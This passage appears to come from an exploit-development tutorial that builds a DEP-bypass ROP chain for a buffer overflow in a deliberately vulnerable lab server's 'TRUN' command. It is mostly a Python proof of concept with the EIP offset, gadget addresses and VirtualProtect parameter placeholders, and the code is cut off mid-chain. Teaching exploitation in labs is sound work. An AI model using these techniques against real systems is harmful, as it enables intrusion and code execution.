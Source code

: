 We can clearly see under the `kernel32.VirtualProtect` pointer, the `return` parameter located at `0x19FF9F0`.

Remember how we saved our old stack pointer into EAX and ECX? We are going to use ECX to do some calculations. Right now, ECX contains a value of `0x19FF9E4`. That value is `C` hex bytes, or 12 decimal bytes away from the `return` address parameter. Let's change the value in ECX to equal the value of the `return` parameter.

We will repeat the following ROP gadget multiple times:

```
0x77e17270: inc ecx ; ret  ; kernel32.dll
```

Here is the updated POC:

```python
import struct
import sys
import os
import socket

# Vulnerable command
command = "TRUN ."

# 2006 byte offset to EIP
crash = "\x41" * 2006

# Stack Pivot (returning to the stack without a jmp/call)
crash += struct.pack('<L', 0x62501022)    # ret essfunc.dll

# Beginning of ROP chain

# Saving ESP into ECX and EAX
rop = struct.pack('<L', 0x77bf58d2)  # 0x77bf58d2: push esp ; pop ecx ; ret  ;  (1 found)
rop += struct.pack('<L', 0x77e4a5e6) # 0x77e4a5e6: mov eax, ecx ; ret  ;  (1 found)

# Jump over parameters
rop += struct.pack('<L', 0x6ff821d5) # 0x6ff821d5: add esp, 0x1C ; ret  ;  (1 found)

# Calling VirtualProtect with parameters
parameters = struct.pack('<L', 0x77e22e15)    # kernel32.VirtualProtect()
parameters += struct.pack('<L', 0x4c4c4c4c)    # return address (address of shellcode, or where to jump after VirtualProtect call. Not officially apart of the "parameters"
parameters += struct.pack('<L', 0x45454545)    # lpAddress
parameters += struct.pack('<L', 0x03030303)    # size of shellcode
parameters += struct.pack('<L', 0x54545454)    # flNewProtect
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
```